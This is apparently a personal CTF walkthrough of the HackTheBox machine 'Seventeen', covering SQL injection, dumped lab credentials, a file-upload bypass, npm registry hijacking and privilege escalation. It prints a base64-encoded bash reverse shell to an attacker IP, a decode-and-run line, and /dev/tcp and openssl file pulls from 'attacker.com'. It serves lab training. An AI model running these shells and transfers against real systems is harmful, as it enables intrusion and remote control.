

# Seventeen Helped-through

Name: Seventeen
Date:  17/12/2022
Difficulty: Hard  
Goals: 
- Learn different methodological points to assimilate
- Get some experienced Blue Team nuggets of knowledge about blue teamery activities
- Have fun
- Being that chill for 122 minutes on a Hard box that is probably insane
- MySQL retention 
- Share some dadamnmayne 
Learnt:
- These are really good for comparitative and iterative "I made X mistake Y months ago - brain reinforced lesson learnt"

Being a detirministically isolated in this wide world and in the cyber world, being that it is Christmas and I am on the enternal get good continuation one way is to learn from other very much unlike yourself. [dadamnmayne](https://www.youtube.com/@dadamnmayne) is awesome and underrated - and very different from myself. He comes from a strong Blue team background, is a manager, has OSCP make stellar content and another awesome [Black Guy at Security Conferences - awesome talk by Joseph McCray](https://www.youtube.com/watch?v=-AkUutmXwUI). I have seen he post some insightful post on THM forums - he is definately someone that will age well. In it also being Christmas and I want a wide scope of methodlogical hows and whys [Can We Root 'Seventeen' from HTB in Under 122 Minutes? | No Writeup Run](https://www.youtube.com/watch?v=u6Bpz7IWYFI), will be both chill and educational. I am poshing through tough weeks stablisers on till I am back at peak to find that next one - this Youtube channel is awesome and very underrated. Tomorrow I will be doing the Snowscan (top 0.9% of HTB on [[Blackfield-Helped-Through]], but tipsy and final starting to feel festive I write to dedicating this written piece to [dadamnmayne](https://www.youtube.com/@dadamnmayne) and his family all the best for the future.  

This is 2.8 box as of writing, this is a nasty box. Respect to Kavighan if you can pass through the new HTB box auditing phase and still agitate the the 456 people that completed this box into rating it so low in 2022. This is not a boxes from 2019 with Windows XP configured to kill brain cells given the insane compatibility with modern exploits, this is the real 2022 box. I am not sure how I am going to feel when I am doing these sorts of boxes in 2024, before during or after  - as unpopular boxes generally are for a specific reason. guessing from the tags, sql, password cracking we may be in for the worst rabbit holes possible (blind sql and weird hash configuration nightmares), in which case praise [dadamnmayne](https://www.youtube.com/@dadamnmayne). **Edit:** Picked the wrong box to follow along with dadamnmayne it will be the  HackTheBox [Json](https://www.youtube.com/watch?v=zqJNOqohWMQ) - see [[Json-Helped-Through]]

For beyond root I want as with prior knowledge of what might be on the box play around with: - 
- MySQL add some data, do some weird 
- Try some more Linux Privilege escalation 
- Try patch something 
- Read two other writeups and watch the [Ippsec Version](https://www.youtube.com/watch?v=U-2nI6wSPOE&t=46s)

Due to this box being 2.4 for good reason and it being dull also dadamnmanye hitting a wall with SQLi as is personally development, strengths and weaknesses this is not a positive showcase of him, but definitely a shout out - will do another helptrhough to get a better sample of his skills and knownledge at a later date. Regardless Ippsec will pick up from where I left off to be fair to my objectives and dadamnmanyne 

There are 17 steps to this machine - [Ippsec](https://www.youtube.com/watch?v=U-2nI6wSPOE&t=46s) jokes. 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


It is ubuntu 18 - Ippsec - nmap from ssh openSSH 7.6; ippsec alludes to different versions of apache could mean contrainerisation like docker, also there is also debian aswell. 

Opening burp before curtain setup and caffine injection for [dadamnmayne](https://www.youtube.com/@dadamnmayne), I am not timelimit started scanning ports and started up burp while fire off my web recon related tools, here is the hostname to add to /etc/hosts:


There is some configuration prevent access to the 8000


Check the github it got linked...[unlike everything else on the box!](https://github.com/kavishkagihan) there are serious box creator plugging going on. Users:

John Smith
James Miller
Kelly Shane

There is no virtual hosting. 

status code 405 - means not allowed   

exams as a vhost is not in SecLists... google that spoils the box. 


`exam` is in the list is it the 0.04% of top milltion-110000.txt; I used `tee -a` for output. Tried `-o` for gobuster just to see if that is better, it screwed me over at somepoint

Ippsec provides extensive fuzzing that is not in the HTB academy: test then add filter by line most displayed, then set the matcher to all. 
```bash
ffuf -u http://$ip -w /seclists/Discovery/subdomains-top1million-5000.txt -H 'Host: FUZZ.seventeen.htb' -fl 533 --mc all
```

Wordlists are painful. 


Drunken fail on my part... returning less liquid christmas and more solid normality. 

Parametres check - LFI, RFI, Command Injection, SQLinjection  


Already there is a CVE for Examination Management System 2021

Searchsploits output


The admin panel is disabled


Testing the parametre in the exploitdb exploit - not verified 


Recon the sqli in the background.

Retried adding great risk and level flags than the default.

[[pypiserver-detect-http___exams.seventeen.htb]] detected on exams subdomain - https://pypi.org/project/pypiserver/ - Minimal PyPI server for uploading & downloading packages with pip/easy_install. Although it is irrelevant as second peaking at writeup for the sqlmap syntax. I cringed a tad at this one, which is good for me as I feel that with my time pressure not being that of "being like snowscan levels of speed" I flailed around alot more to learn my flaw. To paste over this with health dose of positivity I remember being at these points where the actually issue is the google dork and searching in the right places (that are not write ups). Very OSCP like issue you run into of PG boxes or during OSCP stuff is there are 5 to 6 *close enough* exploits amongst lots of similiar named exploits to weed out find the correct one or a couple where one works if you edit a small part of the script. One thing I did to better myself was to look up the exploits as collection or group rather than b-line, which is not nessacarily a mistake just an issue that comes from search enigine usage where you need to think more like a engineer - I can see the exact size of the bolt that I need to untighten becuase it is obscucated by darkness, so instead pulling the spannel that some random person standing around on there phone said, pick out the greater than one amount of spanners to look over and try each if required - and not end up beating yourself up like and with emotional a spanner because you could have "just googled harder..."    

Sad directory busting


On a linked exploit [the id parametre is explicitly used](https://www.exploit-db.com/exploits/50725), damn misses multiple things, reading is a generally issue for me that crops up. While both  SQLmap and Feroxbuster fire off I checked out some Top 10 HTB players to get inside the mind of some of the masters; write up sources to check:

https://www.youtube.com/@xct_de
https://snowscan.io/htb-writeup-writeup/
https://blog.szymex.pw/ctf/
https://blog.ziemni.com/writeups/

There is a snowscan demonstration of of Blackfield see: [[Blackfield-Helped-through]] I will follow along with today. 


damnmanye thinks that people do not leave plain text credentials in databases, I am glad that is sometime that he has observed, but Alh4zr3d a active Red Team has noted otherwise on regular occasions. This box is not exciting for damnmanye so I will trying following along to another box to get a better sample of his skills and knowledge.  


id | type | avatar  | lastname | password | username| firstname | date_added | last_login | date_updated 
 --- | --- | --- | ---  | --- | --- | --- | --- | --- | --- 
1  | 1    | ../oldmanagement/files/avatar.png | Admin    | fc8ec7b43523e186a27f46957818391c | admin            | Adminstrator | 2021-01-20 14:02:37 | NULL       | 2022-02-24 22:00:15 |
6  | 2    | ../oldmanagement/files/avatar.png | Anthony  | 48bb86d036bb993dfdcf7fefdc60cc06 | UndetectableMark | Mark         | 2021-09-30 16:34:02 | NULL       | 2022-05-10 08:21:39 |
7  | 2    | ../oldmanagement/files/avatar.png | Smith    | 184fe92824bea12486ae9a56050228ee | Stev1992         | Steven       | 2022-02-22 21:05:07 | NULL       | 2022-02-24 22:00:24 |

Nothing from crackstation


The manual explaination 


The ID parametre is vulnerable 


Boolean based injection works by checking whether size of the respoonse in this case.


Sqlmap will automate the process of manual checking each character. Thankfully we live in a time after the inception of sqlmap, because boolean injection will take a very, very long time, but not as long a time based.

```python
-p # parametre
--privileges # db shell privileges
--random-agent # always good because sqlmap states its sqlmap so WAF will catch it
```
[Hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

The dot dot slash in the avatars is apparently indicative of more vhosting, I assumed it was lfi-able insecure coding as the file system allows for `../`  to be passed to the server without filtering. Toilet reading the Web Application Guide to Hacking is wiping off my noobery in web relatedness. 


Ippsec's reasoning is that this is bad web developer hack.
```bash
/var/www/html
/var/www/erms
/var/www/oldmanagement
```

It is running on port 8000, which was previously forbidden without virtual hosting. 


These not being crackable by crackstation was a signal that there are more hashes
```
Admin : fc8ec7b43523e186a27f46957818391c
Anthony : 48bb86d036bb993dfdcf7fefdc60cc06
Smith : 184fe92824bea12486ae9a56050228ee
```

A redumping of the databases got me the other credentials


| stud_id | yr | gender | stud_no | lastname | password | firstname |
| --- | --- | --- | --- | --- | --- | --- | ---|
| 1       | 1A | Male   | 12345   | Smith    | 1a40620f9a4ed6cb8d81a1d365559233                   | John      |
| 2       | 2B | Male   | 23347   | Mille    | abb635c915b0cc296e071e8d76e9060c                   | James     |
| 3       | 2C | Female | 31234   | Shane    | a2afa567b1efdb42d8966353337d9024 (autodestruction) | Kelly     |
| 4       | 3C | Female | 43347   | Hales    | a1428092eb55781de5eb4fd5e2ceb835                   | Jamie     |

31234 : autodestruction


Download the pdf


## Foothold

Ippsec point to the intend CVE route and his route of learning some php and file upload vulnerability with his route so I will do both. In the thrust of @malwarejake two is one and one is none. 

https://www.youtube.com/watch?v=U-2nI6wSPOE&t=46s - 27:12

Returning to this box again to finish it and state the HackTheBox [Json](https://www.youtube.com/watch?v=zqJNOqohWMQ) helpthrough is going to be my damnmanye understand others Helped-Through as I going to dealing with alot of json related Azure stuff, also found Azure Pentesting from Unknown Artist who seemed to be going through a burnout phase. Regardelss of how rough the alst three months have been as to the expectation I had. I think that really improved in the greater understanding of being a hacker even with the number of boxes or OSCP related triumphs and shortcomings that made my restrategise for Azure System administrator by the and of 2022 and maybe OSCP also. I will see. My progress was made in strife as I have no mentors and I am trying my hardest to use every learning strategy, feedback mechanism and challenge myself for quality time to get results. 


As explained above regarding trying to find a knwon file within a unknown directory structure manually:


Ippsec Mitigation 
- md5sum or shasum the files and store them as the \*-sum string for pseudo random filenames, which remove control over the extension. 
- Disable PHP wrappers, file could be archived as .zip, but then unzipped PHP wrappers with the extension then useable 
​- Complexify the suming as function `md5($data_uploaded, $store_id, stud_no, $filename)`
	- `$data_uploaded`, `$store_id` - like a Salt
	- `$stud_no`, `$filename` - prevent collision with other files

[Source Code](https://www.sourcecodester.com/php/14155/school-file-management-system.html)


Create a directory of the stud_no if does not exist and copy file in to the directory

1. Try upload .php file
2. Proxy in burp and start changing - importantly for myself NOTE THE CHANGES - [[Networked-Helped-Through]], was helped-through because this!
3. Check any extension is it is getting executed on request to the file in the webserver directory

.htaccess file in Apache can block excution of php 
1. Upload a blank .htaccess to trick the webserver 


And we have code execution...Ippsec Rocks!


Another way would be to change the stud_no, because the .htaccess only would cover a set directory. 


It seems like it may have patched out the unintended route... sort of, it is deletign extra directories created, but you can still get a reverse shell. I went back as I remember encoded payload are a must try for me these days. 

Covert to base64 with 0 column wrapping to prevent multi-line base64 string
```bash
​# Create payload
echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.14.109/1337 <&1'" | base64 -w0
# -w0 means wrap 0 columns 
```
Decode Payload on target machine:
```bash
echo "L2Jpbi9iYXNoIC1jICdleGVjIGJhc2ggLWkgJj4vZGV2L3RjcC8xMC4xMC4xNC4xMDkvMTMzNyA8JjEnCg==" | base64 -d | bash
```


It is probably just a cronjob so you have to do it within a minute interval.

Linux root file system `ls -la` shows we are in a `.dockerenv`


Went back to the video before doing my own checks just to see if there are more modern ones that have not appeared in THM rooms or Videos or blogs I have read.


They patched the box. The hostname is also indicator of being in docker

Ippsec filesystem knownlegde is awesome, but regardless -

```bash
find . -type d -name *onf* 2>/dev/null
find . -type f -name *onf* 2>/dev/null
grep -r -e require_once
# Find where it communicates with any databases
```

To find the process/dbh.php


`root : 2020bestyearofmylife`


`mysqluser : mysqlpassword`

## Mark Shell


`mark : 2020bestyearofmylife`


## PrivEsc - www-data to Mark

This is an awesome little 
```bash
find / -user $user -ls 2>/dev/null
```


With permissions listed


## PrivEsc - Mark to Kavi

The email that the data we may need would be stored by some auxillary service to the simple web UI that stores staff data that will probably used to PrivEsc. 

Importantly - there is serverside code completed for data handling - but problem exist with the:
- Private registry
- Logger - various version may exist.
- Mike,v Kavishka


Ippsec discusses how the 8000 does to a load balancer, which I had tried to use a a reverse shell, but also why it came up with a 403 forbiudden in the nmap scan

Because Ippsec saying that 4873 does not make sense to him I decide to go through all the ports, dorking the port I did not know. Also decided just to rescan as I have done multiple port scans as is OSCP ready recon normality. Good reminder. 
53 - DNS
80 - http
8000 - http

UDP 68 - DHCP/Bootstrap Protocol Client
[Bootstrap protocol client. Used by client machines to obtain dynamic IP addressing information from a DHCP server.](https://www.speedguide.net/port.php?port=68)Apple NetBoot also uses this port.
110 - Pop3
143 - IMAP 

JDNet does have register - and ERP is enterprise resource planning...

993 - IMAP over TLS
995 - Pop3 over TLS
3306 -MySQL
 
```bash
~C
-L 488
```

[Paused video to continue this for last two and half hours I can justify these days](https://www.youtube.com/watch?v=U-2nI6wSPOE&t=1632s). So from deduction  the reason that 4873 is a weird port is it not a 5 digit port and it is mostly likely an in-house usage as it not third party vendor official port or standard unix service port.  

Therefore port forwarding. I want to do this both with chisel and with ssh before I check how Ippsec does it. 

- If we domain or network joined what ports are exposed to localhost, but not remotehost?
	- Are there in-house usage of non-standard ports?
		- Port Redirection, Networking and Network Security considerations?
			- Avaliable services for redirection or can you drop a binary like Chisel?

File transfers for you brain and mine the openssl file transfer is hilariously good as everything requires opensll 
```bash
# scp oh hi Mark...
scp chisel mark@seventeen.htb:/tmp/chisel

# use bash subshell to cat on local box into a local path with /dev/tcp while hosting the file with: 
nc -lvnp 80 < chisel
# target machine:
bash -c "cat < /dev/tcp/10.10.14.109/80 > /tmp/chisel"

# My continued nememsis openssl
# Create key and server to host a $file
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < $file_to_send
# Victim 
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
```

I just gave AA for everything, but it would be more secure OPSEC or scope or objective reasons to consider what you information to you generate with the key.

There is also a recent [opensll Vulnerability](https://sysdig.com/blog/openssl-3-vulnerability-container-images/), regardless the openssl gtfobin was kill multi birds with one stone Beyond Root and goals that I missed in previos CTFs self made challenges. Made me feel more comfortable with encrypted Socat in later CTFs

Tried using just manual rather than my cheatsheets just practice memorising port redirection concept for Azure virtual networking, OSCP related and long good life. 
```bash
# Host 
chisel server -host 127.0.0.1 -port $serverPort
# Seveenteen.htb
chisel client -fingerprint $fingerprint 4873:127.0.0.1:$listenerPort$:10.10.14.109:$Serverport
```
I then ran into the upsetting revalations the I have not finished and there by mined [[Reddish-Helped-through]]... it is now on the complete ASAP list, so hopefully before the end of Janaury 2023. Regardless, I learnt openssl lolbas file transfering, plus more happy with openssl after 7 plus month head butting it for various reason in HTB boxes. Sadly I turned off the chisel server.

From my notes on ssh port forwarding without using the ssh subshell ~C
```bash
# Syntax: ssh -N -R [bind_address:]port:host:hostport [username@address]
ssh -N -R $Attacker_IP:$Listening_port:$remotes_127-0-0-1:$port_forwarded_through attacker@$Attacker_IP
```

But that would also involve password across the wire, so:
```bash
~C
-L 4873:localhost:4873
```
From the localhost of the connecting ssh session use port 4873 forward the localhost of the connected to remote host 4873.

[Verdaccio](https://verdaccio.org/) - *"is a simple, zero-config-required local private NPM registry. No need for an entire database just to get started..."*


For the method:

And credential reuse:
`mark: 2020bestyearofmylife` failed

The instructions are on screen, because it is a CTF. So we use the local npm.


Registry in this sense is the key value pair of packages stored and sharable.

db-logger is authored by target of potential privesc

Abusing or legitmate use of nmp as if permissions can alter applications that use it 
```bash
npm install $package --registry $registry

# Search a registry
npm search ---registry http://$target:$port
```

Importantly for concious methodology - "Consider objectives(?!)":
- How does the db-logger by the name probably logging the interactions with a db - database
	- Database = credentials, db-to-host persistence and sometimes exploits
	- Code that is not just-in-time access is often hardcoded


Mitigation for this from myself not Ippsec is to use just-in-time services to provide and manage credentials on deployment in the cloud, rather than hardcode it. 

More credntial reuse with 
`Kavi : IhateMathematics123#`

## Kavi to Root


I pause the video to flex possible creaky PrivEsc braincell - [Ippsec waitsat 51mins](https://www.youtube.com/watch?v=U-2nI6wSPOE&t=2839s)

This is a script, owned by root


- Note - Ippsec tries to login as Kavi to the registry, but login is disabled. I did not try this.

```bash
cat /etc/lsb-release
# Sudo by Ubuntu <= 18 will preserves the home directory
```

Note if we had control of directory like before then we could and pass the file in to the directory, I also want to the 
turn my failure to the read the `cd /opt/app` line into more Archive content. 
```bash
chmod 7777 $privEscFile
```

It requires the logger and db-logger packages from the registry. What every is downloaded will be owned by root so we need cant move a script in during the download to install them in /opt/app, which is root owned initally. But it will then run `node` as root on `index.js`


This will write data as root regardless, but we are using loglevel, not 

It is not by default installed, but also does not matter 

Because [Node.js](https://nodejs.org/en/knowledge/getting-started/what-is-require/) `require()` allows for relative paths when we do not have the `logger` module on the filesystem we could then make a bad `logger` module of our own and force that on a `warn()` function and to be safe `debug()` to send us a shell. And because node is *"blazely fast"* \*cough\* it should not take long. 
[Freecode camp Node.js Require() ](https://www.freecodecamp.org/news/requiring-modules-in-node-js-everything-you-need-to-know-e7fbd119be8/)
[Honeybadger.io - Node.js Cache](https://www.honeybadger.io/blog/nodejs-caching/)


With:

[Node.js Reverse shells](https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73)
[XinYminutes JS](https://learnxinyminutes.com/docs/javascript/)
[Javascript beautifer](https://beautifier.io/)
[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)

Created:

I then `rm` the package.json as I then read that `npm init` will create it

```bash
npm init -y # Initialise
npm install --save ../Logger
# Verify module installation
node 
> module.paths 
# Link instead of install for large depenedency and development "reasons.."
npm link # to link the module
```


Reviewing the code:  


- I replace the upper casing of the functions as contructors/classes conventionally are PascalCase and functions use camal case. 
- Changed the module name as it loglevel not Logger
- removethe warn as I dont need to target the server bricking..
- called the reverse_shell function
- more semi colons
- updated the comments
- Takes a parameter
- return it just to provide more visibility that something has happened.

Re init and installed after uninstall and ... I must of missed something


No reverse shell. I stil learnt some JS. Now I understand why I am so wrong. 

It is Ubuntu 18 and before sudo pulls from home not root. We need to edit the .npmrc to point to our box


I was not really wrong I did not know how npm pulled packages. Ippsec hit my recent Dockerise bump from a couple of days ago... So will return to this after I thought and researched run docker in the best way possible.

```bash
# Pull the latest version
sudo docker pull verdaccio/verdaccio
# Run -it sudo tty --rm to delete when done, bind port to host
sudo docker run -it --rm -p 4873:4873 verdaccio/verdaccio
# Target
nmp adduser --registery http://10.10.14.43

```


## Beyond Root

Cleanup
```bash
sed -i 's/$IP/127.0.0.1/g' /home/kavi/.npmrc

```

https://0xdf.gitlab.io/2022/09/24/htb-seventeen.html#box-info


